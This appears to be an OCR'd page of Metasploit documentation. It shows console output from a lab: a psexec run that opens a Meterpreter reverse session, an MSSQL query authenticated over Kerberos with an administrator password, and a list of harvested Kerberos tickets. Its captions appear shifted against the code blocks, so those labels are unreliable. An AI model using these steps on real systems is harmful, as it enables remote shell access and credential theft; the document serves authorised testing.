 ```msf
[+] 192.168.123.13:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.123.13
[*] Meterpreter session 6 opened (192.168.123.1:4444 -> 192.168.123.13:49738) at 2023-01-18 12:09:13 +0000

meterpreter >
```

Running psexec against a host:
```msf
msf6 > use auxiliary/admin/mssql/mssql_sql
msf6 auxiliary(admin/mssql/mssql_sql) > run 192.168.123.13 domaincontrollerrhost=192.168.123.13 username=administrator password=p4$$w0rd mssql::auth=kerberos mssql::rhostname=dc3.demo.local mssqldomain=demo.local sql='select auth_scheme from sys.dm_exec_connections where session_id=@@spid'
[*] Reloading module...
[*] Running module against 192.168.123.13

[*] 192.168.123.13:1433 - 192.168.123.13:88 - Valid TGT-Response
[+] 192.168.123.13:1433 - 192.168.123.13:88 - Valid TGS-Response
[*] 192.168.123.13:1433 - 192.168.123.13:88 - TGS MIT Credential Cache saved to ~/.msf4/loot/20220630193907_default_192.168.123.13_windows.kerberos_556101.bin
[*] 192.168.123.13:1433 - SQL Query: select auth_scheme from sys.dm_exec_connections where session_id=@@spid
[*] 192.168.123.13:1433 - Row Count: 1 (Status: 16 Command: 193)

 auth_scheme
 -----------
 KERBEROS

[*] Auxiliary module execution completed
```

Connect to a Microsoft SQL Server instance and run a query:
```msf
msf6 > klist
Kerberos Cache
==============
host            principal               sname                              issued                     status       path
----            ---------               -----                              ------                     ------       ----
192.168.159.10  smcintyre@MSFLAB.LOCAL  krbtgt/MSFLAB.LOCAL@MSFLAB.LOCAL   2022-12-15 18:25:48 -0500  >>expired<<  /home/smcintyre/.msf4/loot/20221215182546_default_192.168.159.10_mit.kerberos.cca_867855.bin
192.168.159.10  smcintyre@MSFLAB.LOCAL  cifs/DC.msflab.local@MSFLAB.LOCAL  2022-12-15 18:25:48 -0500  >>expired<<  /home/smcintyre/.msf4/loot/20221215182546_default_192.168.159.10_mit.kerberos.cca_699376.bin
192.168.159.10  smcintyre@MSFLAB.LOCAL  krbtgt/msflab.local@MSFLAB.LOCAL   2022-12-16 14:51:50 -0500  valid        /home/smcintyre/.msf4/loot/20221216145149_default_192.168.159.10_mit.kerberos.cca_782487.bin
192.168.159.10  smcintyre@MSFLAB.LOCAL  cifs/DC.msflab.local@MSFLAB.LOCAL  2022-12-16 17:07:48 -0500  valid        /home/smcintyre/.msf4/loot/20221216170747_default_192.168.159.10_mit.kerberos.cca_156303.bin
192.168.159.10  smcintyre@MSFLAB.LOCAL  cifs/DC@MSFLAB.LOCAL               2022-12-16 17:08:26 -0500  valid        /home/smcintyre/.msf4/loot/20221216170825_default_192.168.159.10_mit.kerberos.cca_196712.bin
192.168.159.10  smcintyre@MSFLAB.LOCAL  krbtgt/msflab.local@MSFLAB.LOCAL   2022-12-16 15:03:03 -0500  valid        /home/smcintyre/.msf4/loot/20221216150302_default_192.168.159.10_mit.kerberos.cca_729805.bin
192.168.159.10  aliddle@MSFLAB.LOCAL    krbtgt/msflab.local@MSFLAB.LOCAL   2022-12-16 15:25:16 -0500  valid        /home/smcintyre/.msf4/loot/20221216152515_default_192.168.159.10_mit.kerberos.cca_934698.bin
```
